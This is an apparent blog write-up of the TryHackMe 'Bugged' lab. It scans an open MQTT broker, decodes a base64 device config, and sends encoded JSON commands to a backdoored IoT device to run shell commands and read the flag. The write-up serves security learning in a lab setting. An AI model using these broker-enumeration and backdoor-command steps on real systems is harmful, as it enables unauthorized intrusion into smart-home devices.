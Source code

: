```yaml
---
title: Bugged
date: 2025-10-04 12:04:00 +0200
categories: [TryHackMe, Challenges]
tags: [iot, mqtt]
description: John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?
image: /assets/img/THM/bugged.jpg
---
```


>**Platform:** [TryHackMe](https://tryhackme.com/room/bugged) - 4 Oct 2025

>**Rating:** Easy

## Abstract
This writeup covers the TryHackMe "Bugged" challenge, which focuses on analyzing MQTT communications in a simulated smart home environment. By enumerating open ports and decoding MQTT traffic, we uncover a backdoored IoT device and demonstrate how to interact with it to retrieve the flag.

## Enumeration
I start off by scanning the IP, achecking for open ports.
```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.142.79
PORT     STATE SERVICE
22/tcp   open  ssh
...
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/bytes/sent: 1073
|     $SYS/broker/publish/bytes/received: 9286
...
|     storage/thermostat: {"id":3558129027290157839,"temperature":23.430103}
...
```
{: .nolineno}
The scan reveals an open port (1883) used for the MQTT protocol. It even shows some of the IoT devices connected to the *'Broker'* and the available *topics* which they post to, along with the most recent payload for those topics.

Since the service running is **mosquitto**, as revealed by the scan, I will install and use that for interacting with the traffic.

The following command lets us *subscribe* to traffic relayed by the broker.
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.142.79 -t "#" -v
patio/lights {"id":17067615417940530788,"color":"ORANGE","status":"ON"}
frontdeck/camera {"id":3081743840256966965,"yaxis":-159.03606,"xaxis":11.9752655,"zoom":4.020044,"movement":true}
storage/thermostat {"id":10517548528827059288,"temperature":23.487356}
GqMpRSEobh/TvLQehMg0E/... ...VHZMUWVoTWcwRS9zdWIifQ==
```
{: .nolineno}
>*-t* specifies the topic we wish to subscribe to, where '#' serves as a wildcard, so we receive everything.
{: .prompt-info }

We see that some base64 encoded data is being transmitted. Decoding the data reveals a device ID and some information as to how it might operate. It also reveals the topics it subscribes and publishes to.
```sh
┌──(kali㉿kali)-[~]
└─$ echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ== > tmp.txt

┌──(kali㉿kali)-[~]
└─$ base64 -d -i tmp.txt
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
{: .nolineno}
## Exploit
First I'll try to publish a message to the topic it subscribes to. Meanwhile I'll be subscribing to the topic it publishes to.
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_pub -h 10.10.142.79 -m "whoami" -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub
```
{: .nolineno}
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.142.79 -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=

*base64 decoded becomes:*
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```
{: .nolineno}
Using this toghether with the previous information, we now know that we can communicate with this backdoored device, and how to do so.
>Below I will skip the encoding/decoding and communication process, as it follows the steps already shown. Thus only showing the sent and received payloads. Alternatively use an online tool like CyberChef[^1] for encoding/decoding.
{: .prompt-info }
```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "whoami"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"challenge\n"}

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "ls"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "cat flag.txt"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{※\(^o^)/※}\n"}
```
{: .nolineno}
## References
[^1]: [CyberChef](https://gchq.github.io/CyberChef/)